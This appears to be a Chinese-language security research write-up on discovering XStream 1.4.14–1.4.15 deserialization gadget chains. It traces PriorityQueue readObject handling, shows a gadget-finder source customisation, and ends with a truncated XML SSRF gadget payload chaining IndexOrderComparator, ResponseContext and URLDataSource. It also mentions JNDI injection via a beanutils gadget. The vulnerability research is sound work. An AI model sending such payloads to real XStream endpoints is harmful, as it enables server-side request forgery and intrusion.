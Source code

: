 输出的xml为

```xml
<java.util.PriorityQueue serialization="custom">
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>1</size>
    </default>
    <int>2</int>
    <string>apple</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>

```

然后再用XStream反序列化回去，打好断点。你会看到居然调用了优先队列的readObject函数。

![image-20210119135705897](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119135705897.png)

详细跟进之后可以发现XStream在反序列化优先队列时，会交由SerializableConverter处理。

SerializableConverter实现中会判断反序列化的对象是否支持传统意义上的jdk反序列化，如果支持的话就调用这个对象的readObject函数。

![image-20210119140107580](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119140107580.png)

这同时也就意味着可以用beanutils的gadget打jndi注入。但这并不是我们想要的。

稍微调试一下当初beanutils的调用链

![image-20210119140735367](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119140735367.png)

在siftDownUsingComparator函数中会调用Comparator.compare，Comparator是可控的。所以我们可以将Comparator.compare作为新的source。

![image-20210119140814605](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119140814605.png)

定制source如下，但是发现得到的结果都是无用链。

```java
                if(inheritanceMap.isSubclassOf(method.getClassReference(), new ClassReference.Handle("java/util/Comparator"))&&(method.getName().equals("compare"))){
                    addDiscoveredSource(new Source(method, 0));
                }
```

原因其实也很简单，就是参数污染误报+BFS导致错过了真正的source。打开source.dat之后发现，source才160多个，采用人工排查的方式不用花多少时间，于是开始人工排查。当排查到DataTransferer$IndexOrderComparator.compare方法时，发现可以产生map.get(Object)的新source。

后续以Map.get寻找新的source，结果可以发现老面孔又来了。

#### 发现的Gadget链

##### SSRF

```xml
<java.util.PriorityQueue serialization="custom">
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class="sun.awt.datatransfer.DataTransferer$IndexOrderComparator">
                <indexMap class="com.sun.xml.internal.ws.client.ResponseContext">
                    <packet>
                        <message class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart">
                            <dataSource class="javax.activation.URLDataSource">
                                <url>HTTP://127.0.0.1:9999/ssrf?a=1</url>
                            </dataSource>
                        </message>
```